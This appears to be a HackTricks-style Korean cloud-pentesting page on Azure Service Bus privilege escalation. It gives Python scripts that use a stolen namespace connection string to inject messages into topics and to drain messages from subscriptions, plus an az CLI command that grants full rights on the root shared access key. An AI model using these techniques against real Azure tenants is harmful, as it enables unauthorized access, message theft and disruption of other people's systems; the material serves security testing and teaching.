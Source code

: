 # Az - Service Bus Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Service Bus

자세한 정보는 다음을 확인하세요:

{{#ref}}
../az-services/az-servicebus-enum.md
{{#endref}}

### 메시지 전송. 작업: `Microsoft.ServiceBus/namespaces/authorizationRules/listkeys/action` 또는 `Microsoft.ServiceBus/namespaces/authorizationRules/regenerateKeys/action`

`PrimaryConnectionString`을 검색할 수 있으며, 이는 Service Bus 네임스페이스의 자격 증명 역할을 합니다. 이 연결 문자열을 사용하여 Service Bus 네임스페이스로 완전히 인증할 수 있으며, 이를 통해 모든 큐나 주제에 메시지를 전송하고 시스템과 상호작용하여 운영을 방해하거나 유효한 사용자를 가장하거나 메시징 워크플로우에 악성 데이터를 주입할 수 있습니다.
```python
#You need to install the following libraries
#pip install azure-servicebus
#pip install aiohttp
#pip install azure-identity

import asyncio
from azure.servicebus.aio import ServiceBusClient
from azure.servicebus import ServiceBusMessage

# Constants
NAMESPACE_CONNECTION_STR = "<PrimaryConnectionString>"
TOPIC_NAME = "<TOPIC_NAME>"

# Function to send a single message to a Service Bus topic
async def send_individual_message(publisher):
# Prepare a single message with updated content
single_message = ServiceBusMessage("Hacktricks-Training: Single Item")
# Send the message to the topic
await publisher.send_messages(single_message)
print("Sent a single message containing 'Hacktricks-Training'")

# Function to send multiple messages to a Service Bus topic
async def send_multiple_messages(publisher):
# Generate a collection of messages with updated content
message_list = [ServiceBusMessage(f"Hacktricks-Training: Item {i+1} in list") for i in range(5)]
# Send the entire collection of messages to the topic
await publisher.send_messages(message_list)
print("Sent a list of 5 messages containing 'Hacktricks-Training'")

# Function to send a grouped batch of messages to a Service Bus topic
async def send_grouped_messages(publisher):
# Send a grouped batch of messages with updated content
async with publisher:
grouped_message_batch = await publisher.create_message_batch()
for i in range(10):
try:
# Append a message to the batch with updated content
grouped_message_batch.add_message(ServiceBusMessage(f"Hacktricks-Training: Item {i+1}"))
except ValueError:
# If batch reaches its size limit, handle by creating another batch
break
# Dispatch the batch of messages to the topic
await publisher.send_messages(grouped_message_batch)
print("Sent a batch of 10 messages containing 'Hacktricks-Training'")

# Main function to execute all tasks
async def execute():
# Instantiate the Service Bus client with the connection string
async with ServiceBusClient.from_connection_string(
conn_str=NAMESPACE_CONNECTION_STR,
logging_enable=True) as sb_client:
# Create a topic sender for dispatching messages to the topic
publisher = sb_client.get_topic_sender(topic_name=TOPIC_NAME)
async with publisher:
# Send a single message
await send_individual_message(publisher)
# Send multiple messages
await send_multiple_messages(publisher)
# Send a batch of messages
await send_grouped_messages(publisher)

# Run the asynchronous execution
asyncio.run(execute())
print("Messages Sent")
print("----------------------------")

```
### 메시지 수신. 작업: `Microsoft.ServiceBus/namespaces/authorizationRules/listkeys/action` 또는 `Microsoft.ServiceBus/namespaces/authorizationRules/regenerateKeys/action`

PrimaryConnectionString을 검색할 수 있으며, 이는 Service Bus 네임스페이스의 자격 증명 역할을 합니다. 이 연결 문자열을 사용하여 네임스페이스 내의 모든 큐 또는 구독에서 메시지를 수신할 수 있으며, 이는 잠재적으로 민감하거나 중요한 데이터에 대한 접근을 허용하고, 데이터 유출을 가능하게 하거나 메시지 처리 및 애플리케이션 워크플로에 간섭할 수 있습니다.
```python
#You need to install the following libraries
#pip install azure-servicebus
#pip install aiohttp
#pip install azure-identity

import asyncio
from azure.servicebus.aio import ServiceBusClient

NAMESPACE_CONNECTION_STR = "<PrimaryConnectionString>"
TOPIC_NAME = "<TOPIC_NAME>"
SUBSCRIPTION_NAME = "<TOPIC_SUBSCRIPTION_NAME>" #Topic Subscription

# Function to receive and process messages from a Service Bus subscription
async def receive_and_process_messages():
# Create a Service Bus client using the connection string
async with ServiceBusClient.from_connection_string(
conn_str=NAMESPACE_CONNECTION_STR,
logging_enable=True) as servicebus_client:

# Get the Subscription Receiver object for the specified topic and subscription
receiver = servicebus_client.get_subscription_receiver(
topic_name=TOPIC_NAME,
subscription_name=SUBSCRIPTION_NAME,
max_wait_time=5
)

async with receiver:
# Receive messages with a defined maximum wait time and count
received_msgs = await receiver.receive_messages(
max_wait_time=5,
max_message_count=20
)
for msg in received_msgs:
print("Received: " + str(msg))
# Complete the message to remove it from the subscription
await receiver.complete_message(msg)

# Run the asynchronous message processing function
asyncio.run(receive_and_process_messages())
print("Message Receiving Completed")
print("----------------------------")
```
### `Microsoft.ServiceBus/namespaces/authorizationRules/write` & `Microsoft.ServiceBus/namespaces/authorizationRules/write`

이 권한이 있으면 공유 액세스 키를 읽거나 생성하여 권한을 상승시킬 수 있습니다. 이러한 키는 Service Bus 네임스페이스에 대한 전체 제어를 허용하며, 큐, 주제 관리 및 메시지 전송/수신을 포함하여 역할 기반 액세스 제어(RBAC)를 우회할 수 있습니다.
```bash
az servicebus namespace authorization-rule update \
--resource-group <MyResourceGroup> \
--namespace-name <MyNamespace> \
--name RootManageSharedAccessKey \
--rights Manage Listen Send
```
## References

- https://learn.microsoft.com/en-us/azure/storage/queues/storage-powershell-how-to-use-queues
- https://learn.microsoft.com/en-us/rest/api/storageservices/queue-service-rest-api
- https://learn.microsoft.com/en-us/azure/storage/queues/queues-auth-abac-attributes
- https://learn.microsoft.com/en-us/azure/service-bus-messaging/service-bus-python-how-to-use-topics-subscriptions?tabs=passwordless
- https://learn.microsoft.com/en-us/azure/role-based-access-control/permissions/integration#microsoftservicebus

{{#include ../../../banners/hacktricks-training.md}}
